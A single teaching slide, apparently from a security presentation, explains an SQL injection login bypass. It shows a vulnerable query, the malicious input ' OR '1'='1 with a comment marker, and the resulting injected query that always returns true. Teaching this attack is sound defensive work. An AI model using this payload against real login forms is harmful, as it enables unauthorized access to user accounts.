

# SQL Injection Example (with code)
Scenario: Bypassing a login screen using SQL injection.
Vulnerable Code:
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
Malicious Input:
Username: ' OR '1'='1
Password: --
Injected Query:
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = '';
Bypasses authentication by always returning true.
Impact: Unauthorized access to user accounts.